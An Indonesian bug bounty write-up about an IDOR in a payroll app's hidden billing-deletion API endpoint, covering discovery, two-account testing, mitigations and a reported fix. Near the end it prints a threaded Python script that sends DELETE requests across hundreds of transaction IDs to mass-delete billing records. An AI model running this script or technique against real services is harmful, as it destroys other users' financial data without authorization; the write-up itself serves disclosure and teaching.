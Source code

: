 +++
date = '2025-09-15T14:10:41Z'
draft = false
title = 'How I Found a Critical IDOR That Allowed Deleting All Billing Transactions'
+++
Halo semuanya! Kali ini saya ingin berbagi pengalaman menarik saat melakukan security testing pada suatu aplikasi web yang berfokus pada free payroll, absenteeism dan employee management.

Bayangkan ini, saya sedang mengeksplorasi sebuah aplikasi web tersebut untuk sekedar pengujian keamanan dan tiba-tiba menemukan sesuatu yang cukup mengejutkan. Sebuah kerentanan Insecure Direct Object Reference (IDOR) yang memungkinkan saya menghapus transaksi billing pengguna lain, tanpa ada otorisasi sama sekali.

Yup, benar-benar semua transaksi.

## Apa itu IDOR? Singkatnya?
Insecure Direct Object Reference (IDOR) adalah celah kontrol akses di mana aplikasi memperbolehkan pengguna mengakses atau memodifikasi objek internal (seperti file, record database, transaksi) langsung, tanpa validasi yang cukup. Dalam kasus ini, jika kamu tahu ID transaksi seseorang, kamu bisa menghapusnya. Tanpa izin. Tanpa ada batasan.

## Menemukan "Pintu Rahasia" Endpoint Tersembunyi
Seperti biasa, saya login ke akun saya, buka **Pengaturan > Billing**. Saya melihat daftar riwayat transaksi, opsi membuat perpanjangan paket baru, tapi tidak ada tombol hapus.

*"Hmmm, mungkin fitur hapus memang sengaja disembunyikan dari user biasa"* pikir saya.

Tapi seorang bug hunter selalu penasaran. Jadi saya lanjut eksplorasi, **Pengaturan > Integrasi > Open API**. Di sana saya menemukan URL dokumentasi API. Awalnya, tidak ada yang menarik sama sekali. Tapi saya tidak menyerah.

![url dokumen api](/images/url_dokumen_api.png)

Setelah beberapa percobaan, akhrinya saya menemukan: ![**https://private.com/docs/hr**](none)

Dan di situlah saya melihat segudang endpoit. Salah satunya langsung bikin saya meneteskan keringat dingin (anjay):

**`DELETE /app/billingTransactions/{id}`**

![endpoint api](/images/dokumen_api.png)

Artinya? Endpoint tersembunyi untuk menghapus transaksi billing, yang tidak pernah muncul di UI.

## Saatnya Menguji: Apakah Endpoint Ini Berfungsi?

Menggunakan Burpsuite Repeater, saya membuat request DELETE sederhana. Response 200 OK. Berhasil. Tapi ini baru bukti endpoint ada, belum bukti IDOR.

Lanjut ke uji coba klasik: **menghapus transaksi milik pengguna lain**.

## Cross The Line: Exploit IDOR

Jadi, saya menyiapkan dua akun:
1. Attacker: akun saya
2. Victim: akun percobaan pengguna lain

*Note: Sebagai seorang bug hunter yang menjunjung etika dan mematuhi kebijakan program, penyerang hanya diperbolehkan menguji pada akun miliknya sendiri dan tidak boleh menerapkan uji coba ini pada target nyata. Ingat, ada konsekuensi hukum jika melanggar aturan, jadi selalu berhati-hati!*

### Langkahnya sangat sederhana:
1. Buat transaksi di akun victim, catat ID (misal: 4927)
2. Buat transaksi di akun attacker, catat ID (misal: 4928)
3. Ubah request DELETE milik attacker menjadi ID victim, kirim request

Hasilnya? 200 OK dan transaksi milik victim hilang tanpa jejak.

![request delete api](/images/delete_billing.png)

Boom. IDOR berhasil dieksploitasi, data bisa hilang secara diam-diam. Tanpa peringatan.

## Kenapa Ini Berbahaya?

* Pengguna tidak sadar: Mereka tidak tahu fitur hapus ada. Tidak ada laporan.
* Developer blind spot: Endpoint ada tapi UI tidak menampilkannya. Developer mungkin lupa mengamankan.
* Mass deletion: Dengan script sederhana, ribuan transaksi bisa dihapus hanya dengan mengubah ID.
* Kehilangan integritas data: Laporan keuagan, audit semua bisa kacau.

## Rekomendasi Mitigasi

* Validasi otorisasi ketat di semua endpoint, bukan hanya yang terlihat di UI saja
* Gunakan soft delete daripada menghapus data langsung
* Implementasi audit logging

Prinsipnya tetap sama, setiap endpoint yang memproses data baik yang terlihat di UI maupun tidak, harus memiliki validasi otorisasi yang ketat.

## Exploit Code

Saya tidak menjalankan kode ini karena melanggar etika dan aturan program. Kode ini hanya ditampilkan sebagai contoh untuk *mass deletion billing transactions* melalui IDOR, bukan untuk digunakan di sistem nyata.

```python

#!/usr/bin/env python3
# Aithor: 0xrohadi

import requests
import urllib3
from concurrent.futures import ThreadPoolExecutor

# Ignore SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def exploit_idor(session, billing_id):
    url = f"https://private.com/api/v1/app/billingTransactions/{billing_id}"
    headers = {
        "User-Agent": "Exploit IDOR",
        "Authorization": "Bearer <token>",
        "X-App": "hr"
    }
    try:
        response = session.delete(url, headers=headers, verify=False)
        if response.status_code == 200:
            print(f"Success delete billing transaction: {billing_id}")
        else:
            print(f"Billing {billing_id} not found or cannot delete")
    except Exception as e:
        print(f"Error: {e}")

def main():
    max_workers = 10
    try:
        with requests.Session() as session:
            with ThreadPoolExecutor(max_workers=max_workers) as executor:
                executor.map(lambda i: exploit_idor(session, i), range(999))
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    main()
```

## Pelajaran Penting

Security thorough obscurity is not security. Menyembunyikan endpoint bukanlah pengaman. Anggap semua endpoint bisa ditemukan. Assume every endpoint is exposed. Semua endpoint, UI-visible atau tidak, harus aman.

---

Saya sudah melaporkan kerentanan ini dan perusahaan menanggapinya dengan cepat. Perbaikan telah diterapkan oleh team developernya, dan saya menerima **"bounty"** sebagai bentuk apresiasi, lumayan buat jajan hehe.

Momen seperti ini selalu bikin saya sadar. Dunia bug bounty selalu penuh kejutan, dan kadang bug paling kritis justru tersembunyi di *"hal-hal kecil yang tidak terlihat"*.

Terima kasih sudah membaca! Kalau ada pertanyaan, follow saya di [X (Twitter)](https://x.com/@0xrohadi "0xrohadi") ya.

Have a nice day, enjoy!
